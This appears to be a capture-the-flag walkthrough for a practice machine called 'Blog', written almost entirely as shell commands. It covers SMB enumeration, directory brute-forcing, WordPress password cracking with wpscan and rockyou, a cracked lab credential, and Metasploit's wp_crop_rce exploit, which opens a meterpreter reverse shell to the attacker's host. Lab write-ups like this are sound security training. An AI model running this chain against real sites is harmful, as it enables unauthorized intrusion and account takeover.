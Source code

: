 # Blog - Medium

```shell
sudo vim /etc/hosts
#map ip to blog.thm

nmap -T4 -p- -A -Pn -v blog.thm

smbclient -L \\\\blog.thm

smbclient \\\\blog.thm\\BillySMB
#in share

dir

#get all files
mget *

exit

#inspect the files
steghide info Alice-White-Rabbit.jpg

steghide extract -sf Alice-White-Rabbit.jpg
#does not give anything useful

feroxbuster -u http://blog.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,bak,js,txt,json,docx,pdf,zip,cgi,sh,pl,aspx,sql,xml --extract-links --scan-limit 2 --filter-status 400,401,404,405,500

cmseek
#check cms used by website
#this gives us version and user

vim wpusers.txt
#add the two usernames enumerated

wpscan --url http://blog.thm -U wpusers.txt -P /usr/share/wordlists/rockyou.txt
#cracks password for one user

msfconsole -q

search wordpress 5.0

use exploit/multi/http/wp_crop_rce

options

set RHOSTS http://blog.thm

set LHOST 10.14.31.212

set USERNAME kwheel

set PASSWORD cutiepie1

run
#run the exploit
#we get meterpreter shell

shell
#drop into a command shell

```